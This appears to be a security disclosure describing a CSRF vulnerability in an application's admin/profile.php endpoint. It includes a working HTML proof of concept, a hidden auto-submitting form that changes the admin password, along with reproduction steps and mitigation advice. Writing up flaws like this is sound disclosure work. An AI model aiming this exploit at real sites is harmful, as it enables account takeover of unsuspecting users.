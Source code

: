 ## Critical CSRF Vulnerability in admin/profile.php Endpoint

### Vulnerability Overview
A Cross-Site Request Forgery (CSRF) vulnerability was identified in the `admin/profile.php` endpoint of the application. This vulnerability allows an attacker to perform unauthorized actions on behalf of an authenticated user without their consent, potentially compromising user accounts and sensitive information.

### Affected URL
- **Endpoint:** `https://localhost/admin/profile.php`

### Description
The application does not implement adequate CSRF protection mechanisms, allowing an attacker to execute arbitrary actions by crafting a malicious request. An attacker can exploit this vulnerability by tricking a victim (authenticated user) into clicking on a crafted link or visiting a malicious webpage, which would send a request to the vulnerable endpoint.

### Proof of Concept
A proof of concept (PoC) was created to demonstrate the CSRF vulnerability. The following HTML form was used to perform an unauthorized password change:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CSRF Attack POC</title>
</head>
<body>
    <h1>CSRF Attack Proof of Concept</h1>
    <form id="csrfForm" action="https://localhost/admin/profile.php" method="POST" style="display:none;">
        <input type="hidden" name="nonce" value="84315b997b0798aa316fcb424684c647402c7632">
        <input type="hidden" name="user" value="salam">
        <input type="hidden" name="email" value="salam@gmail.com">
        <input type="hidden" name="name" value="Seleme">
        <input type="hidden" name="timezone" value="Europe/Berlin">
        <input type="hidden" name="lang" value="en_US">
        <input type="hidden" name="show_htmleditor" value="1">
        <input type="hidden" name="sitepwd" value="Selme1234">
        <input type="hidden" name="sitepwd_confirm" value="Selme1234">
        <input type="hidden" name="submitted" value="Save Updates">
    </form>
    <script>
        document.getElementById('csrfForm').submit();
    </script>
</body>
</html>
```

### Steps to Reproduce
1. Ensure the target application is running on a local server.
2. Place the above HTML code in a file (e.g., `csrf_attack.html`).
3. Open the `csrf_attack.html` file in a web browser.
4. The form will automatically submit a request to `admin/profile.php`, changing the user's password without their consent.

### Impact
This vulnerability can lead to unauthorized actions being taken on behalf of users, including but not limited to:
- Unauthorized password changes.
- Modification of user profile details.
- Potential data leakage and account takeover.

### Recommendations
To mitigate this vulnerability, it is recommended to implement the following security measures:
- **CSRF Tokens**: Implement CSRF tokens for all state-changing requests. Ensure that each request includes a unique token that is validated by the server.
- **SameSite Cookie Attribute**: Use the `SameSite` attribute for cookies to restrict cross-origin requests.
- **User Confirmation**: Introduce confirmation steps for sensitive actions, such as password changes.

### Conclusion
The identified CSRF vulnerability poses a significant security risk to the application. Immediate action is required to implement proper CSRF protections to safeguard user accounts and sensitive information.
